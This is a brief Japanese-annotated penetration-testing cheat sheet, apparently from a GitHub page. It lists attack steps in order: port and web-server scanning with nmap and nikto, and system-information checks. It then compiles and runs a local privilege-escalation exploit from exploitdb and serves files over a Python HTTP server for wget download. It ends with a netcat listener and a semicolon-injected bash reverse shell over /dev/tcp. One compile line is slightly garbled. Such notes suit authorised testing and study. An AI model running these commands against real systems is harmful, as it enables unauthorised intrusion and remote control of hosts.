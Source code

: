 
## Reconnaissance

ポート確認

    nmap -v -p- -sV -sT -Pn [HOST]
    nmap -v -A [HOST]

Webサーバ

    nikto -h [HOST]

状態確認

    uname -a
    cat /etc/redhat-release
    cat /proc/version

exploitdb https://github.com/offensive-security/exploitdb

    searchsploit CentOS 4.0
    cp /opt/exploitdb/exploits/linux_x86/local/XXX.c XXX.c
    gcc gcc 9542.c -o test
    ./test

## Delivery

http転送

    python -m SimpleHTTPServer 9998
    wget http://address:9998/file


## Exploitation

bashリバースシェル http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

    nc -lvp 9999
    ;bash -i >& /dev/tcp/ip/9999 0>&1




